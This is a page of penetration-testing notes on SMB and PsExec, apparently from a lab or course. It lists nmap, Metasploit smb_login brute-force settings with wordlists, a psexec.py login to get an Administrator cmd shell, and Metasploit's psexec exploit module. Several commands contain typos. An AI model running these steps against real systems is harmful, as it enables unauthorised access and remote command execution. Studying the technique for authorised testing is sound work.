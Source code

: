 <h1>Exploiting SMB with PsExec</h1>
<h2>SMB</h2>
<ul>
  <li>SMB(Server Message Block) is a network file sharing protocol that is used to faciliate the sharing of files and peripherals (printers and serial ports) between computers on local network(LAN)</li>
  <li>SMB uses port 445 (TCP). However originally, SMB ran on top of NetBIOS using port 139.</li>
  <li>SAMBA is the open source Linux implementation of SMB, and allows Windows system to access Linux shares and device.</li>
</ul>
<h2>SMB Authentication</h2>
<ul>
  <li>The SMB protocol utilizes two levels of authentication, namely:</br>1. User Authentication</br>2. Share Authentication</li>
  <li>User authentication - User must provide a username and password in order to authenticate with the SMB server in order to access a share.</li>
  <li>Share authentication - Users must provide a password in order to access restricated share.</li>
</ul>
Note: Both of these authentication levels utilize a challenge response authentication system.
<h2>PsExec</h2>
<ul>
  <li>PsExec is a lightweight telnet - replacement developed by microsoft that allows you execute porcesses on remote windows system using any user's credentials.</li>
  <li>PsExec authentication is performed via SMB.</li>
  <li>We can use the PsExec utility to authenticate with the target system legitimately and run arbitary commands or launch a remote command prompt.</li>
  <li>It is very similar to RDP, however, instead of controlling the remote system via GUI, command are sent via CMD.</li>
</ul>
<h2>SMB Exploitatin with PsExec</h2>
<ul>
  <li>In order to utilize PsExec to gain access to a windows target, we will need to identify legitimate user accounts and their respective passwords or passwrod hashes.</li>
  <li>This can be done by leveraging various tools and techniques, however, the most common technique will involve performing and SMB login brute-force attack.</li>
  <li>We can narrow down our brute-force attack to only include common Windows user accounts like: <br>-Administrator</li>
  <li>After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.</li>
</ul>

<hr>
<h3>Nmap Scan</h3>
<code>nmap -Sv -sC {ip}</code>
<h3>SMB brute force</h3>
<code>service postgresql start && msfconsole</code></br>
<span>After running msfconsole</span></br>
<code>search smb_login</code></br>
<code>use auxiliary/scanner/smb/smn_login</code></br>
<code>show options</code></br>
<code>set USER_FILE /usr/shar/metaspolit-framework/data/wordlists/common_user.txt</code></br>
<code>set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt</code></br>
<code>set RHOST {ip}</code></br>
<span>It will not show all atempts, only show found password</span><br><code>set VERBOSE false</code>
<h3>Now in new terminal</h3>
<code>psexec.py Administrator@{ip} cmd.exe</code></br>
Now it will prompt to enter passwrod, so enter password which you got form bruteforce<br>
After entering password, We can get cmd 
<br>
<hr>
<h3>exploiting form metasploit</h3><br>
1. search psexec<br>
2. use exploit/windows/smb/psexec
<br>
It may detect my windows defender because it send payload and then it will provide you session 






